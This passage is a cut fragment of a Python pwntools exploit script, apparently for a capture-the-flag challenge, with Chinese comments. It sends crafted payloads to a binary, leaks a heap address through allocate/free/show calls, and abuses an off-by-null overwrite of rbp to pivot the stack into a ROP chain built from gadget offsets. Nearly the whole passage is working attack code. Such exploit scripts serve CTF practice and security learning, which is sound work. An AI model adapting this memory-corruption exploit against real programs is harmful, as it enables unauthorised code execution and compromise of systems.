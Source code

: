 ```py
            s+=p8(j)
            break
l=p.recvline()
rand_num=int(l.split()[-1])
print(rand_num)
num2=rand_num+0x12345678
print(hex(num2))
s+=str(num2).encode("latin-1") # 这里不能发 p64 啊啊啊 因为代码里面调用的是 atoi 函数
p.recvuntil("passcode: ")
p.sendline(s)
cnt=0
s=""

# 外层实现的 read_in 有一个 off-by-null 覆盖 rbp 的低字节为 0x00 从而劫持 sp 为 0x1f00 之类的数，这个 show 和 remove 里面都可用
# 打 ROP，利用 show_entry,先在 read_idx 中把 0x1f00 之类的地址赋值为我们想要跳转到的函数地址，然后去溢出覆盖 rbp 进而栈迁移
# 我们内层需要触发: 先正常的 create 一个正常堆块 如 0x40 之类的大小 然后传一个比如说是 0x100000040 的 nbytes  赋值 regs2
# libc leak: 内层需要一个申请 0x1d0 的堆块 就 pop_%1 %0 那个 gadget 再调 0x77

create(0,0x60,"A")
create(1,0x60,"B")
create(2,0x60,"C")
delete(2)
delete(0)
create(0,0x60,"d")
show(0)                # heap leak
pop_1_2_ret=0x764
ret=0x628
# 本轮 ROP: buf 利用 gadget 回 0x764 直接溢出
p.recvuntil("content: ")
heap_base=u64(p.recv(6).ljust(8,b"\x00"))-0x764
print(hex(heap_base))
# rop
#gdb.attach(p)
#pause()
create(2,0x60,"e")
delete(1)
delete(2)

p.recvuntil("choice>> ")
p.sendline("2")
p.recvuntil("idx: ")
ropchain=p64(ret)*6+p64(pop_1_2_ret)+p64(heap_base+0x690)+p64(0x100000000+0x50)+p64(0xaa)+p64(0x145) # 先简单升一下栈，方便后续打
payload=b"6hhhhhhh"+ropchain
p.send(payload)
sleep(0.4)
payload2=b"a"*0x60+p64(0)+p64(0x21)+p64(heap_base+0x690)+p64(0x20000000060)+p64(0)+p64(0x71)+p64(3)*12+p64(0)+p64(0x21)+p64(0)*2+p64(0)+p64(0x71)+p64(heap_base+0x2f0)
p.send(payload2)
# 手动发 create(3,0x60,"g"*8)
cnt=0
p.recvuntil("choice>> ")

p.sendline("1")
recv=p.recv(timeout=0.01)
if b"choice" in recv:
    p.sendline("1")
    p.recvuntil("idx: ")
    p.sendline("3")
elif b"idx" in recv:
    p.sendline("3")

p.recvuntil("size: ")
```